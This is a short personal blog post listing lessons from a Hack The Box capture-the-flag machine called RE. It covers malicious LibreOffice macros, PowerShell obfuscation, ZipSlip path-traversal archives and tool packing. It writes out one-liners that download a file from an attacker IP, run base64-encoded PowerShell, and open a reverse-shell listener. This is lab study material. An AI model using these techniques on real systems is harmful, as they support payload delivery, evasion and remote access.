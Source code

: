```yaml
---
title: RE HTB
date: '2020-02-01 23:00:00'
categories: ["htb"]
---
```


# Takeaways from RE box

The Re box created from [0xdf](https://0xdf.gitlab.io/) was retired later this day. I did solve the box *after* it was retired so now I am going to show you some *key* things I learned from this box. A list of these is here:

* `Sometimes smbmap may throw false postivies. I always try to use smbclient.`

* `libreoffice calc also support macros, we can run malicious command from these docs.`

* `We can use` [Invoke-Obfuscation](https://github.com/danielbohannon/Invoke-Obfuscation for powershell obfuscation)` for powershell obfuscation`

* `The famous yara rules I saw on twitter but never took the chance to search it. Yara rules are basically a way to search for some common strings you provide to yara in order to identify malicious programs/files.`

* `I almost forgot about .ace files and winrar, and zipslip. This exploit was used on the box to go from one user to another. We had to create a malicious .zip file which contains inside a malicious file with a path traversal as filename.`

* [UPX](https://upx.github.io/)` I used this tool to make chisel.exe a little bit smaller. I have seen this from ippsec`

* `We can download file from powershell by using iwr -uri ip/file -outfile filename.evil`

* `We can run base64 encoded powershell commands but we need to use convert the strings to utf16 little endian using the command: iconv -t utf-16le and then pipe it to base64. After we can run the command by using powershell -encodedcommand base64string== `

* `Use rlwrap -nc -nvlp 7979 to have working arrow keys on windows.`

* [WinPeas](https://github.com/carlospolop/privilege-escalation-awesome-scripts-suite/tree/master/winPEAS)
`Like LinEnum but for windows.`

* 

Thats all. I didn't do the uninteded way. If you want to learn more goto 0xdf blog or see ippsec videos.